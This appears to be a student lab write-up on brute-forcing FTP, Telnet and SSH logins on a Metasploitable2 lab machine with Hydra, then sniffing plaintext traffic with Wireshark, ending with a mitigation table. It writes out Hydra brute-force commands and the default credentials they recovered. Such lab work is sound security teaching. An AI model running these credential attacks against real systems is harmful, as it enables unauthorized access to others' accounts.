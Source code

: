 **Labwork 1:👾Brute Force and Sniffing**
    
**🔨Tools Used**

    Hydra – for brute force attacks
    Wireshark – for sniffing and analyzing traffic
    Kali Linux – attacker machine
    Metasploitable2 – vulnerable target machine
    ftp, telnet, ssh – for manual login and testing

**Finding the Metasploit IP**

**1. Enumeration of Usernames🥐**

    Initial usernames used for brute force attacks were manually prepared in a file usernames.txt:
    - msfadmin
    - user
    - admin
    - root
    - test
    - guest

**2. Brute Force Attacks🥖**

**2.1 FTP**

    - Tool: Hydra
    - Command Used:
        hydra -L usernames.txt -P passwords.txt ftp://192.168.154.133

    Result: Successful login found – msfadmin:msfadmin

**2.2 Telnet**

    - Tool: Hydra
    - Command Used:
        hydra -l msfadmin -P passwords.txt telnet://192.168.154.133

    Result: Successful login – msfadmin:msfadmin



**2.3 SSH**

    - Tool: Hydra
    - Command Used:
        hydra -L usernames.txt -P passwords.txt ssh://192.168.154.133

    Problem: Hydra (or the SSH client it's using) doesn't support the older key exchange algorithms used by the Meta2 machine, which is very outdated



**3. Sniffing Network Traffic🍖**

    Use the recovered credentials to log in to the respective services


    Use Wireshark or tcpdump to capture and analyze network traffic during the session.


    Identify which protocols transmit data in plaintext and which use encryption.


    Provide evidence (e.g., screenshots) to prove which protocols are secure and which are not.
    FTP


**Telnet**



**4.Problems Encountered**

    Protocol	Problem	Solution
    FTP	None	N/A
    Telnet	Service was off initially	Enabled Telnet on Metasploitable2
    SSH	Hydra connection failed due to key mismatch	Added weak algorithm support in SSH config

**5.Mitigation Strategies**

    Protocol	Vulnerability	Secure Alternative	Why it’s better
    FTP	Sends credentials in plaintext	SFTP / FTPS	Encrypts file transfer data and credentials
    Telnet	Transmits all in plaintext	SSH	SSH encrypts communication
    SSH	Still brute-forceable	Use key-based login, strong passwords	Prevents brute force access



